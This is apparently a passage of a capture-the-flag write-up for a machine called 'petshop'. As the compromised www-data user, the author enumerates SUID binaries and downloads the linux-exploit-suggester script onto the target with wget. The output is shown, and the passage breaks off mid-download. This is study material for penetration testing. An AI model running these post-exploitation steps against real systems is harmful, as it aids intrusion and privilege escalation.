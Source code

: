 The only usefull script was the `les.sh - script2` by mzet

```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh```


#### SUID Perms

```sh
www-data@petshop:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core/10958/bin/mount
/snap/core/10958/bin/ping
/snap/core/10958/bin/ping6
/snap/core/10958/bin/su
/snap/core/10958/bin/umount
/snap/core/10958/usr/bin/chfn
/snap/core/10958/usr/bin/chsh
/snap/core/10958/usr/bin/gpasswd
/snap/core/10958/usr/bin/newgrp
/snap/core/10958/usr/bin/passwd
/snap/core/10958/usr/bin/sudo
/snap/core/10958/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/10958/usr/lib/openssh/ssh-keysign
/snap/core/10958/usr/lib/snapd/snap-confine
/snap/core/10958/usr/sbin/pppd
/bin/mount
/bin/su
/bin/ping
/bin/umount
/bin/fusermount
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newuidmap
```

####

```sh
www-data@petshop:/tmp$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
t-suggester/master/linux-exploit-suggester.sh -O les.shoit
--2021-04-27 00:19:57--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87559 (86K) [text/plain]
Saving to: 'les.sh'

     0K .......... .......... .......... .......... .......... 58% 4.59M 0s
```